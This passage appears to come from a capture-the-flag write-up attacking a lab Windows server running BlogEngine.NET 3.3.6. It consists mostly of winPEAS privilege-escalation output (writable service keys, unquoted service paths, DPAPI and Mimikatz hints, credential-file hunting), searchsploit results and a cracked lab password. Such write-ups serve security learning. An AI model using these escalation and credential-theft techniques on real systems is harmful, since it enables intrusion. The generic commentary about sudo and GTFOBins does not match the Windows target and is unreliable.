You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\nsiproxy
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\NTDS
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\Ntfs
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\Null
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\nvraid
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\nvstor
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\nv_agp
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\Parport
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\partmgr
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\pci
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\pciide
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\pcmcia
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\pcw
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\pdc
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\PEAUTH
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\PerfDisk
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\PerfHost
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\PerfNet
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\PerfOS
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\PerfProc
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\pla
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\PlugPlay
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\PolicyAgent
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\PortProxy
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\Power
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\PptpMiniport
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\PrintNotify
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\Processor
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\ProfSvc
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\Psched
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\PsShutdownSvc
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\ql2300i
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\ql40xx2i
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\qlfcoei
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\RasAcd
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\RasAgileVpn
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\RasAuto
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\Rasl2tp
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\RasMan
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\RasPppoe
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\RasSstp
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\rdbss
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\RDMANDK
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\rdpbus
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\RDPDR
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\RDPNP
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\RDPUDD
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\RdpVideoMiniport
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\ReFS
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\RemoteAccess
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\RemoteRegistry
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\RpcEptMapper
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\RpcLocator
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\RSoPProv
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\rspndr
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\s3cap
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\sacdrv
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\sacsvr
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\sbp2port
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\SCardSvr
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\ScDeviceEnum
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\scfilter
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\Schedule
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\SCPolicySvc
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\sdbus
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\sdstor
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\secdrv
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\seclogon
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\SENS
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\SerCx
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\SerCx2
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\Serenum
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\Serial
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\sermouse
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\SessionEnv
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\sfloppy
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\SharedAccess
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\ShellHWDetection
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\SiSRaid2
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\SiSRaid4
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\smbdirect
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\smphost
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\SNMP
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\SNMPTRAP
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\spaceport
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\SpbCx
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\Spooler
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\sppsvc
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\srv
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\srv2
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\srvnet
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\SSDPSRV
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\SstpSvc
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\stexstor
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\storahci
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\storflt
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\stornvme
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\storvsc
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\storvsp
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\svsvc
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\swenum
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\swprv
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\SysMain
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\SystemEventsBroker
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\TapiSrv
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\Tcpip
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\TCPIP6
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\TCPIP6TUNNEL
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\tcpipreg
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\TCPIPTUNNEL
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\tdx
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\terminpt
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\TermService
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\Themes
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\THREADORDER
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\TieringEngineService
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\TPM
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\TSDDD
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\TsUsbFlt
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\TsUsbGD
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\tsusbhub
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\tunnel
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\uagp35
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\UALSVC
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\UASPStor
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\UCX01000
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\udfs
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\UEFI
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\UI0Detect
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\uliagpkx
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\umbus
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\UmPass
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\UmRdpService
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\upnphost
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\usbccgp
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\usbehci
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\usbhub
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\USBHUB3
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\usbohci
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\usbprint
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\USBSTOR
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\usbuhci
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\USBXHCI
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\VaultSvc
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\vdrvroot
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\vds
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\VerifierExt
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\vhdmp
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\viaide
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\Vid
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\vmbus
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\VMBusHID
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\vmbusr
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\vmicguestinterface
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\vmicheartbeat
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\vmickvpexchange
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\vmicrdv
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\vmicshutdown
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\vmictimesync
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\vmicvss
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\volmgr
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\volmgrx
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\volsnap
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\vpci
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\vpcivsp
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\vsmraid
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\VSS
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\VSTXRAID
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\W32Time
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\w3logsvc
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\W3SVC
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\WacomPen
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\Wanarp
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\Wanarpv6
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\WAS
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\Wcmsvc
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\WcsPlugInService
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\Wdf01000
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\Wecsvc
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\WEPHOSTSVC
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\wercplsupport
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\WerSvc
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\WFPLWFS
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\WIMMount
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\WindowsScheduler
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\WinHttpAutoProxySvc
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\WinMad
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\Winmgmt
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\WinNat
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\WinRM
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\Winsock
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\WinSock2
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\WinVerbs
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\WmiAcpi
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\WmiApRpl
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\wmiApSrv
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\workerdd
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\WPDBusEnum
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\ws2ifsl
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\WSService
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\wtlmdrv
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\wuauserv
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\WudfPf
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\wudfsvc
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\XEN
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\xenbus
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\xenbus_monitor
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\xenfilt
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\xeniface
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\xennet
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\xenvbd
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\xenvif
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\xmlprov
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\{35E1B823-1443-4A40-875E-3A1C41494DB7}
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\{51E2531C-2946-4F58-A4BB-072994EB3731}
You can modify HKEY_LOCAL_MACHINE\system\currentcontrolset\services\{C7568B63-C424-48B3-AB9B-6D1F004D5AFC}

 [+] UNQUOTED SERVICE PATHS
   [i] When the path is not quoted (ex: C:\Program files\soft\new folder\exec.exe) Windows will try to execute first 'C:\Program.exe', then 'C:\Program Files\soft\new.exe' and finally 'C:\Program Files\soft\new folder\exec.exe'. Try to create 'C:\Program Files\soft\new.exe'
   [i] The permissions are also checked and filtered using icacls
   [?] https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services
aspnet_state
 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\aspnet_state.exe
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\aspnet_state.exe NT SERVICE\TrustedInstaller:(F)

AWSLiteAgent
 C:\Program Files\Amazon\XenTools\LiteAgent.exe
Invalid parameter "Files\Amazon\XenTools\LiteAgent.exe"
NetTcpPortSharing
 C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe NT SERVICE\TrustedInstaller:(F)

PerfHost
 C:\Windows\SysWow64\perfhost.exe
C:\Windows\SysWow64\perfhost.exe NT SERVICE\TrustedInstaller:(F)

PsShutdownSvc
 C:\Windows\PSSDNSVC.EXE
C:\Windows\PSSDNSVC.EXE NT AUTHORITY\SYSTEM:(I)(F)
                        BUILTIN\Administrators:(I)(F)

TrustedInstaller
 C:\Windows\servicing\TrustedInstaller.exe
C:\Windows\servicing\TrustedInstaller.exe NT SERVICE\TrustedInstaller:(F)

WindowsScheduler
 C:\PROGRA~2\SYSTEM~1\WService.exe
C:\PROGRA~2\SYSTEM~1\WService.exe Everyone:(I)(M)
                                  BUILTIN\Administrators:(I)(F)

[*] DLL HIJACKING in PATHenv variable
   [i] Maybe you can take advantage of modifying/creating some binary in some of the following locations
   [i] PATH variable entries permissions - place binary or DLL to execute instead of legitimate
   [?] https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#dll-hijacking
C:\Windows\system32 NT SERVICE\TrustedInstaller:(F)
                    BUILTIN\Administrators:(M)
                    BUILTIN\Administrators:(OI)(CI)(IO)(F)

C:\Windows NT SERVICE\TrustedInstaller:(F)
           BUILTIN\Administrators:(M)
           BUILTIN\Administrators:(OI)(CI)(IO)(F)

C:\Windows\System32\Wbem NT SERVICE\TrustedInstaller:(F)
                         BUILTIN\Administrators:(M)
                         BUILTIN\Administrators:(OI)(CI)(IO)(F)

[*] CREDENTIALS

 [+] WINDOWS VAULT
   [?] https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#windows-vault

Currently stored credentials:

* NONE *

 [+] DPAPI MASTER KEYS
   [i] Use the Mimikatz 'dpapi::masterkey' module with appropriate arguments (/rpc) to decrypt
   [?] https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#dpapi

    Directory: C:\Users\Administrator\AppData\Roaming\Microsoft\Protect

Mode                LastWriteTime     Length Name
----                -------------     ------ ----
d---s        10/22/2024   8:42 AM            S-1-5-21-141259258-288879770-38949
                                             83326-500

 [+] DPAPI MASTER KEYS
   [i] Use the Mimikatz 'dpapi::cred' module with appropriate /masterkey to decrypt
   [i] You can also extract many DPAPI masterkeys from memory with the Mimikatz 'sekurlsa::dpapi' module
   [?] https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#dpapi

Looking inside C:\Users\Administrator\AppData\Roaming\Microsoft\Credentials\

Looking inside C:\Users\Administrator\AppData\Local\Microsoft\Credentials\

 [+] Unattended files

 [+] SAM and SYSTEM backups

 [+] McAffee SiteList.xml
 Volume in drive C has no label.
 Volume Serial Number is 0E97-C552
 Volume in drive C has no label.
 Volume Serial Number is 0E97-C552
 Volume in drive C has no label.
 Volume Serial Number is 0E97-C552
 Volume in drive C has no label.
 Volume Serial Number is 0E97-C552

 [+] GPP Password

 [+] Cloud Credentials

 [+] AppCmd
   [?] https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#appcmd.exe
C:\Windows\system32\inetsrv\appcmd.exe exists.

 [+] Files in registry that may contain credentials
   [i] Searching specific files that may contains credentials.
   [?] https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#credentials-inside-files
Looking inside HKCU\Software\ORL\WinVNC3\Password
Looking inside HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4/password
Looking inside HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\WinLogon
    DefaultDomainName    REG_SZ
    DefaultUserName    REG_SZ
Looking inside HKLM\SYSTEM\CurrentControlSet\Services\SNMP

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SNMP\Parameters

HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SNMP\Parameters\ExtensionAgents
    W3SVC    REG_SZ    Software\Microsoft\W3SVC\CurrentVersion

Looking inside HKCU\Software\TightVNC\Server
Looking inside HKCU\Software\SimonTatham\PuTTY\Sessions
Looking inside HKCU\Software\OpenSSH\Agent\Keys
C:\ProgramData\Amazon\EC2-Windows\Launch\Sysprep\Unattend.xml
C:\ProgramData\Amazon\EC2Launch\sysprep\unattend.xml
C:\Users\All Users\Amazon\EC2-Windows\Launch\Sysprep\Unattend.xml
C:\Users\All Users\Amazon\EC2Launch\sysprep\unattend.xml
C:\Windows\Panther\setupinfo
C:\Windows\System32\inetsrv\appcmd.exe
C:\Windows\SysWOW64\inetsrv\appcmd.exe
C:\Windows\WinSxS\amd64_ipamprov-dhcp_31bf3856ad364e35_6.3.9600.16384_none_64e8a179c6f2a167\ScheduledTasks.xml
C:\Windows\WinSxS\amd64_ipamprov-dns_31bf3856ad364e35_6.3.9600.16384_none_824aabe06aee1705\ScheduledTasks.xml
C:\Windows\WinSxS\amd64_microsoft-windows-d..rvices-domain-files_31bf3856ad364e35_6.3.9600.16384_none_8bc96e4517571480\ntds.dit
C:\Windows\WinSxS\amd64_microsoft-windows-iis-sharedlibraries_31bf3856ad364e35_6.3.9600.16384_none_01a7d2cf88c95dc0\appcmd.exe
C:\Windows\WinSxS\amd64_microsoft-windows-iis-sharedlibraries_31bf3856ad364e35_6.3.9600.17031_none_01dac51388a3a832\appcmd.exe
C:\Windows\WinSxS\amd64_microsoft-windows-webenroll.resources_31bf3856ad364e35_6.3.9600.16384_en-us_7427d216367d8d3f\certnew.cer
C:\Windows\WinSxS\wow64_ipamprov-dhcp_31bf3856ad364e35_6.3.9600.16384_none_6f3d4bcbfb536362\ScheduledTasks.xml
C:\Windows\WinSxS\wow64_ipamprov-dns_31bf3856ad364e35_6.3.9600.16384_none_8c9f56329f4ed900\ScheduledTasks.xml
C:\Windows\WinSxS\wow64_microsoft-windows-iis-sharedlibraries_31bf3856ad364e35_6.3.9600.16384_none_0bfc7d21bd2a1fbb\appcmd.exe
C:\Windows\WinSxS\wow64_microsoft-windows-iis-sharedlibraries_31bf3856ad364e35_6.3.9600.17031_none_0c2f6f65bd046a2d\appcmd.exe
C:\inetpub\logs\LogFiles\W3SVC1\u_ex190803.log
C:\inetpub\logs\LogFiles\W3SVC1\u_ex190804.log
C:\inetpub\logs\LogFiles\W3SVC1\u_ex190805.log
C:\inetpub\logs\LogFiles\W3SVC1\u_ex201002.log
C:\inetpub\logs\LogFiles\W3SVC1\u_ex241022.log
C:\inetpub\logs\LogFiles\W3SVC2\u_ex190803.log
C:\inetpub\wwwroot\Web.config
C:\inetpub\wwwroot\Account\Web.Config
C:\inetpub\wwwroot\admin\Web.Config
C:\inetpub\wwwroot\admin\app\editor\Web.Config
C:\inetpub\wwwroot\setup\Web.config

💡 Why this works  
Initial access succeeds when enumeration findings are turned into a practical exploit chain. Capturing credentials, file disclosure, or direct RCE creates reliable pivot points for privilege escalation.

## Privilege Escalation

### 3.Privilege Escalation

---

During the privilege escalation phase, we will prioritize checking for misconfigurations such as `sudo -l` / SUID / service settings / token privilege. By starting this check immediately after acquiring a low-privileged shell, you can reduce the chance of getting stuck.

```bash
✅[1:56][CPU:1][MEM:52][IP:10.11.87.75][/usr/share/peass/winpeas]
🐉 > searchsploit BlogEngine.NET 3.3.6
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                 |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
BlogEngine.NET 3.3.6 - Directory Traversal / Remote Code Execution                                                                                                             | aspx/webapps/46353.cs
BlogEngine.NET 3.3.6/3.3.7 - 'dirPath' Directory Traversal / Remote Code Execution                                                                                             | aspx/webapps/47010.py
BlogEngine.NET 3.3.6/3.3.7 - 'path' Directory Traversal                                                                                                                        | aspx/webapps/47035.py
BlogEngine.NET 3.3.6/3.3.7 - 'theme Cookie' Directory Traversal / Remote Code Execution                                                                                        | aspx/webapps/47011.py
BlogEngine.NET 3.3.6/3.3.7 - XML External Entity Injection                                                                                                                     | aspx/webapps/47014.py
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

💡 Why this works  
Privilege escalation depends on chaining local weaknesses such as sudo misconfiguration, weak file permissions, or credential reuse. If a GTFOBins technique is used, the mechanism is that an allowed binary executes a child process or shell without dropping elevated effective privileges.

## Credentials

```text
[80][http-post-form] host: 10.10.245.77   login: admin   password: 1qaz2wsx
cmdkey /list
\---------------------------------------------------------------------------------/**
```

## Lessons Learned / Key Takeaways

### 4.Overview

---



### CVE Notes

- **CVE-2019-6714**: Publicly tracked vulnerability referenced in this writeup; verify affected versions and exploit prerequisites before use.

## References

- nmap
- rustscan
- nikto
- hydra
- msfvenom
- nc
- winpeas
- sudo
- ssh
- curl
- find
- base64
- php
- CVE-2019-6714
- GTFOBins
